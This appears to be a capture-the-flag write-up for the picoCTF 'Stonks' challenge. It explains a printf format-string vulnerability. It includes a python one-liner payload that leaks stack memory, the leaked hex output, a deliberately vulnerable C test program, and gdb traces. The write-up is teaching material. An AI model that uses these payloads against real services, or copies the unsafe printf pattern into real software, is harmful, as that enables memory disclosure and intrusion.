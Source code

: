 # Stonks

The initial problem definition from their website is as follows:

>I decided to try something no one else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/fdf270d959fa5231e180e2bd11421d0c/vuln.c) `nc mercury.picoctf.net 16439`

_taken from [PicoCTF](https://picoctf.net)_

# Solution

When we examine the program with a code editor, we see that it's using the unsafe version of `printf` when getting the users' authorization token.

With the unsafe version of `printf` we can dump the binary's content and execute code. Also important to know for this are calling conventions. During our first look at the problem, we noticed that the server was dumping _some_ data from the program but not which data, _exactly_. Consider our experimental setup below:

`$ ./vuln < <(python3 -c "print(1);print('%p.' * 20)")`

This small python snippet was executed and dumped the following memory fragment from below.

```html
0x1.0x1.0x7f3008bc6190.0x55744ead10d5.0x7f3008ca0a80.0x7ffdc1c45b20.0x55744f6d52a0.
0x7b4654436f636970.0x5f737469625f3631.0x5f64343374736e69.0x3636325f385f666f.
0x7d3032633438.0x7f3008ca0260.0x55744ead3080.0x7f3008c9d5e0.0x7f3008cf0020.
0x7f3008b4fe79.0x7f3008ca1760.0x7f3008b50283.0x14.
```

While we know that some values are ASCII characters, we could not find indicators as to why the first two variables were `1`s. The solution was that under `64 bit` Linux, the calling convention for syscalls takes arguments from the registers first, unlike with `32 bit` Linux. When compiling the binary under `32 bit` with the flag `-m32` in  `gcc`, we see that we get a different result:

```html
0x567bb3d0.0x565caff4.0x565c84ae.0xf7f76da0.0x7d4.0xf7f76de7.0x6f636970.0x7b465443.
0x625f3631.0x5f737469.0x74736e69.0x5f643433.0x385f666f.0x3636325f.0x32633438.
0xff007d30.0xf7fcac18.0xf7f8e800.0x1.0x1.
```

## Verification of our Hypotheses

To verify this hypothesis we constructed a smaller binary from this source:

```c
#include<stdio.h>
#include <string.h>

int main()
{
    char str[15];
    char *secret= "You don't get to see this";
    puts("I will repeat whatever you say");
    scanf("%s",str);
    strcat(str, "\n");
    printf(str);
    return 0;
}
```

Verification with `gdb` indicated that it was indeed the case that `printf` took variables for the `32 bit` version from the stack first instead of using the registers like in the `64 bit` version. We used the format string `%p.%p.%p.%p.%p.%p.` and got `0xffffcd3d.0xf7da8a2f.0x565561d4.0xf7fc14a0.0xf7fd98cb.0xf7da8a2f.` as an answer. We verify this by looking at the stack from `gdb` at the point in execution when `printf` executes. Since `printf` takes all arguments from the stack, we also see that we leak pointers that lie behind this.

```c
[----------------------------------registers-----------------------------------]
EAX: 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
EBX: 0x56558ff4 --> 0x3ef0
ECX: 0x330d ('\r3')
EDX: 0x12
ESI: 0x56558eec ("`aUV\001")
EDI: 0xf7ffcb80 --> 0x0
EBP: 0xffffcd58 --> 0x0
ESP: 0xffffcd20 --> 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
EIP: 0x5655622d (<main+112>:    call   0x56556040 <printf@plt>)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x56556226 <main+105>:       sub    esp,0xc
   0x56556229 <main+108>:       lea    eax,[ebp-0x1b]
   0x5655622c <main+111>:       push   eax
=> 0x5655622d <main+112>:       call   0x56556040 <printf@plt>
   0x56556232 <main+117>:       add    esp,0x10
   0x56556235 <main+120>:       mov    eax,0x0
   0x5655623a <main+125>:       lea    esp,[ebp-0x8]
   0x5655623d <main+128>:       pop    ecx
Guessed arguments:
arg[0]: 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
[------------------------------------stack-------------------------------------]
0000| 0xffffcd20 --> 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
0004| 0xffffcd24 --> 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
0008| 0xffffcd28 --> 0xf7da8a2f ("_dl_audit_preinit")
0012| 0xffffcd2c --> 0x565561d4 (<main+23>:     add    ebx,0x2e20)
0016| 0xffffcd30 --> 0xf7fc14a0 --> 0xf7d8c000 --> 0x464c457f
0020| 0xffffcd34 --> 0xf7fd98cb (mov    edi,eax)
0024| 0xffffcd38 --> 0xf7da8a2f ("_dl_audit_preinit")
0028| 0xffffcd3c --> 0x2e7025a0
[------------------------------------------------------------------------------]
```